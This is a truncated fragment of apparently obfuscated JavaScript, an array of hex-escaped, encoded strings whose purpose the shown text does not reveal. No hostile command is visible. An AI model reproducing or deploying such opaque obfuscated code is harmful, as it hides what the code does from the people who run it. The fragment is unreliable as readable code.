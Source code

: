 6f\x51\x73\x57','\x57\x51\x6a\x45\x74\x43\x6f\x45\x6c\x38\x6f\x2f\x57\x36\x37\x63\x4e\x71','\x57\x37\x2f\x63\x54\x53\x6b\x46\x57\x37\x52\x63\x52\x61','\x75\x4e\x44\x5a\x71\x30\x47','\x57\x50\x52\x64\x4d\x43\x6f\x52\x57\x4f\x2f\x63\x52\x43\x6b\x35','\x79\x32\x54\x4c\x7a\x64\x30\x49\x44\x68\x6a\x31\x7a\x71','\x70\x38\x6f\x78\x42\x6d\x6f\x45\x57\x52\x4e\x64\x47\x53\x6f\x57\x57\x50\x4b\x48\x57\x35\x65','\x66\x6d\x6b\x51\x72\x74\x37\x63\x4d\x47','\x44\x32\x39\x59\x41\x59\x31\x55\x42\x33\x72\x50\x7a\x47','\x57\x35\x62\x32\x6a\x38\x6f\x75\x57\x35\x6e\x53\x57\x36\x53\x76\x6a\x43\x6b\x32','\x42\x33\x6a\x52\x6c\x77\x31\x50\x42\x4d\x4c\x54\x41\x71','\x57\x35\x68\x64\x48\x65\x4a\x64\x52\x53\x6f\x30','\x62\x43\x6f\x38\x41\x53\x6f\x76\x57\x51\x4a\x64\x48\x53\x6f\x47\x57\x35\x7a\x4b\x57\x36\x65','\x57\x4f\x4e\x64\x4b\x6d\x6b\x6e\x57\x50\x62\x6f\x57\x52\x30\x4f\x57\x50\x4f\x32\x57\x52\x4f','\x72\x53\x6b\x73\x70\x43\x6f\x52','\x41\x32\x76\x35','\x42\x33\x6a\x59\x7a\x77\x6e\x30\x69\x67\x66\x55\x43\x57','\x45\x74\x4f\x47\x7a\x4d\x58\x4c\x45\x64\x53\x6b\x63\x71','\x6c\x77\x4c\x55\x7a\x67\x76\x34\x6f\x49\x62\x32\x79\x71','\x42\x73\x71\x42\x68\x33\x54\x49\x67\x64\x42\x63\x55\x57\x38','\x63\x78\x72\x35\x43\x67\x75\x39\x69\x4d\x6a\x31\x44\x61','\x7a\x73\x62\x4f\x79\x78\x7a\x4c\x69\x67\x72\x50\x43\x57','\x46\x66\x33\x64\x56\x66\x2f\x63\x50\x47','\x46\x53\x6b\x67\x66\x6d\x6f\x34\x57\x34\x4b','\x57\x4f\x66\x70\x46\x53\x6b\x35\x57\x36\x68\x63\x4a\x71\x46\x63\x4b\x30\x42\x64\x53\x47','\x7a\x68\x6c\x64\x49\x73\x6e\x67','\x41\x4d\x76\x41\x57\x50\x78\x64\x52\x43\x6f\x44\x7a\x43\x6f\x47\x64\x61','\x69\x74\x4f\x43\x57\x34\x42\x64\x52\x6d\x6f\x69\x79\x43\x6f\x47\x76\x53\x6b\x57','\x73\x31\x48\x66\x42\x67\x30','\x6c\x30\x53\x66\x57\x36\x34\x68\x46\x4e\x72\x34\x57\x51\x4f\x45','\x41\x68\x6a\x4c\x7a\x47','\x73\x4b\x66\x69\x45\x77\x69','\x6e\x64\x79\x55\x6d\x64\x6d\x58\x6c\x64\x69\x57\x6e\x71','\x57\x34\x56\x64\x4c\x53\x6f\x73\x70\x38\x6f\x52\x57\x37\x61\x4f\x57\x37\x56\x63\x47\x4c\x47','\x69\x68\x44\x61\x57\x51\x72\x74\x68\x68\x54\x45\x57\x50\x75\x36','\x63\x62\x58\x57\x57\x50\x62\x5a','\x7a\x67\x4c\x5a\x79\x77\x6a\x53\x7a\x77\x71','\x6c\x4a\x65\x49\x63\x47\x4b\x6a\x63\x77\x4c\x4b\x70\x71','\x57\x34\x78\x63\x54\x6d\x6f\x5a\x61\x6d\x6f\x56','\x42\x4d\x76\x30\x44\x32\x39\x59\x41\x59\x31\x54\x41\x71','\x57\x50\x58\x45\x45\x53\x6f\x52\x57\x4f\x74\x64\x51\x4a\x70\x64\x4c\x4b\x70\x64\x50\x57','\x43\x68\x76\x30\x77\x32\x39\x57\x44\x67\x4c\x56\x42\x47','\x78\x38\x6b\x43\x69\x53\x6f\x4c\x57\x51\x56\x63\x50\x73\x62\x54\x57\x37\x75\x67','\x43\x33\x62\x53\x41\x78\x71','\x41\x4b\x35\x30\x41\x4d\x69','\x6f\x57\x4f\x6a\x63\x77\x58\x4c\x7a\x4e\x71\x36\x69\x61','\x44\x4d\x66\x53\x44\x77\x75\x39\x69\x4b\x72\x50\x43\x57','\x41\x77\x35\x50\x42\x77\x4c\x36\x7a\x77\x71\x47\x70\x47','\x57\x35\x6d\x2b\x57\x34\x42\x63\x4d\x38\x6b\x64\x57\x34\x5a\x63\x47\x71','\x41\x4d\x39\x50\x42\x47','\x71\x38\x6b\x49\x6d\x76\x4a\x63\x55\x57','\x6f\x38\x6b\x54\x57\x52\x65\x4f\x57\x51\x58\x36\x57\x50\x37\x63\x52\x53\x6f\x44\x57\x36\x79','\x69\x64\x69\x57\x43\x68\x47\x37\x69\x67\x7a\x56\x42\x47','\x44\x77\x4c\x51\x41\x30\x69','\x57\x36\x65\x44\x57\x34\x38\x73\x57\x37\x69','\x66\x71\x43\x53\x57\x36\x46\x64\x4a\x57\x33\x63\x4d\x4d\x43\x56\x6f\x57','\x62\x43\x6f\x6a\x57\x35\x6d\x2b\x68\x71','\x67\x38\x6b\x67\x73\x72\x78\x63\x48\x38\x6b\x49\x57\x37\x4e\x64\x55\x38\x6f\x6a','\x7a\x32\x76\x30\x73\x78\x72\x4c\x42\x71','\x57\x51\x35\x39\x6e\x38\x6f\x32\x57\x50\x62\x69\x57\x50\x6a\x58\x57\x36\x54\x67','\x69\x67\x6e\x4f\x7a\x77\x66\x30\x42\x4d\x76\x30\x44\x57','\x6c\x38\x6b\x4c\x41\x33\x43\x75\x57\x34\x61','\x57\x4f\x66\x51\x43\x53\x6b\x43\x57\x52\x57\x6a\x57\x4f\x43\x6d\x46\x6d\x6b\x57','\x70\x5a\x61\x66\x57\x37\x56\x63\x49\x48\x64\x64\x50\x66\x71\x67\x42\x47','\x75\x4b\x4c\x4c\x42\x4d\x30','\x6b\x53\x6b\x4a\x57\x52\x4b\x55\x57\x51\x53\x5a\x57\x4f\x74\x64\x56\x6d\x6b\x6c\x57\x52\x71','\x57\x34\x46\x64\x49\x78\x2f\x64\x4c\x6d\x6f\x71\x57\x36\x71\x34\x6d\x47','\x43\x4d\x66\x57\x6f\x49\x62\x55\x42\x33\x44\x59\x79\x71','\x44\x68\x76\x49\x45\x67\x38','\x79\x63\x6c\x63\x50\x6d\x6b\x6c\x62\x6d\x6b\x6d\x67\x53\x6b\x6b\x57\x4f\x42\x63\x4b\x47','\x73\x33\x7a\x7a\x44\x78\x61','\x44\x77\x44\x52\x41\x78\x4f','\x7a\x38\x6f\x61\x67\x64\x7a\x55\x57\x4f\x33\x64\x4e\x6d\x6f\x47\x7a\x38\x6b\x41','\x6c\x78\x44\x4c\x41\x77\x44\x4f\x44\x64\x4f\x47\x79\x47','\x42\x67\x6e\x32\x73\x67\x79','\x43\x4d\x53\x54\x42\x77\x4c\x55\x41\x77\x31\x50\x45\x47','\x57\x36\x62\x44\x57\x4f\x75\x73\x6c\x47','\x6c\x75\x76\x74\x77\x6d\x6f\x6d','\x61\x53\x6f\x4e\x57\x51\x69\x42\x45\x61\x70\x63\x50\x43\x6b\x44\x42\x38\x6b\x6c','\x75\x65\x7a\x6b\x44\x4d\x34','\x43\x33\x44\x63\x76\x4c\x69','\x63\x71\x4b\x6a\x63\x71\x4b\x6a\x43\x33\x72\x35\x42\x61','\x57\x4f\x4a\x64\x50\x4e\x75\x70\x73\x5a\x62\x46\x57\x37\x78\x63\x4e\x38\x6b\x44','\x6e\x6d\x6b\x78\x57\x52\x69\x59\x57\x52\x57','\x6d\x49\x34\x32\x6d\x74\x7a\x64\x6d\x63\x34\x57\x6d\x61','\x79\x4d\x2f\x64\x55\x75\x42\x63\x4d\x57','\x44\x67\x48\x36\x6f\x57\x61\x6f\x73\x64\x2f\x64\x56\x76\x71','\x64\x43\x6b\x6b\x57\x51\x71\x30\x57\x4f\x47','\x63\x47\x4b\x6a\x63\x71\x4b\x6a\x63\x78\x72\x35\x43\x61','\x57\x37\x78\x64\x4f\x73\x30\x4f\x66\x71','\x43\x74\x4b\x63\x63\x63\x4c\x33\x67\x5a\x37\x63\x4f\x72\x34','\x57\x51\x37\x64\x4d\x47\x74\x64\x50\x6d\x6f\x38\x7a\x4c\x30\x6f\x69\x6d\x6b\x34','\x43\x4d\x76\x4a\x44\x67\x4c\x56\x42\x4a\x4f\x47\x79\x57','\x6f\x64\x79\x31\x6e\x74\x69\x58\x72\x4d\x54\x32\x75\x75\x72\x74','\x71\x38\x6b\x37\x57\x36\x4c\x30','\x57\x51\x74\x64\x4b\x74\x64\x64\x4e\x38\x6f\x53','\x57\x34\x2f\x63\x4b\x38\x6f\x63\x43\x38\x6f\x55\x57\x36\x58\x33\x57\x34\x5a\x63\x51\x74\x69','\x65\x48\x78\x63\x4d\x43\x6b\x65\x57\x52\x78\x64\x48\x38\x6f\x57\x57\x34\x4f\x38\x57\x35\x30','\x57\x34\x76\x77\x79\x38\x6f\x75\x57\x34\x6a\x4c\x57\x36\x61\x74\x69\x57','\x45\x65\x6a\x63\x75\x32\x75','\x63\x71\x4c\x33\x41\x77\x72\x30\x41\x64\x30\x49\x6d\x71','\x57\x4f\x50\x35\x74\x6d\x6b\x62\x57\x36\x47','\x57\x35\x76\x47\x57\x51\x75\x42